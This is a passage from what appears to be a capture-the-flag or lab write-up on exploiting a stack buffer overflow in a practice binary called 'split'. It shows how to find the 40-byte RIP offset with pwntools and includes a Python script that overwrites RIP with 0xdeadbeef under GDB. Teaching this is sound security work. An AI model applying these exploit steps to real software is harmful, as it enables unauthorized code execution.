 Notice how the first 4 bytes in the RSP register are `kaaa`. We can lookup this value with pwntools to find the offset at which we can control RIP:

```
$ pwn cyclic -l kaaa
40
```

At 40 bytes into the stack buffer overflow, we can set value in the RIP address to an arbitrary value.

## Verify Control Over RIP

Let's verify that we took control over the RIP register by debugging the program in GDB.
In the exploit code below, we can set 40 bytes of padding followed by the 64-bit little-endian value to overwrite the RIP register.
Then, we flush all the program's output buffers so that we know it will be ready to read our payload, and then we send it and wait for the app to crash at 0xdeadbeef.
Please note that I use [gef](https://gef.readthedocs.io/en/master/) to make it easier to analyze stack values while developing binary exploits.

### exploit.py

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './split'

# Start the process
io = process(PROCESS)

# Attach a debugger
gdbscript = ""
pid = gdb.attach(io, gdbscript=gdbscript)

crash_size = 128
offset = 40
padding = b"A" * offset
rip = p64(0xdeadbeef)
remaining = b"B" * (crash_size - len(padding) - len(rip))
payload = b"".join([
   padding,
   rip,
   remaining
])

# Pwn!
io.clean()
io.sendline(payload)

# Wait for the process to crash
io.wait()
```

